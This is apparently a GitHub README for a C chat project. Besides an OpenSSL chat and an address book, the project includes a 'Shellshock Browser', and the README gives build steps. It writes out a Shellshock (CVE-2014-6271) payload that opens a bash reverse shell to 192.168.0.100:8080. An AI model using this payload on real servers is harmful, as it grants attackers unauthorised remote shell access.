 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    
    **[A useful Link](http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref)**
    
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"


# building
* On Linux: # make

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

**make commands**
# make
# sudo make install
# sudo make uninstall
# make clean
# make version
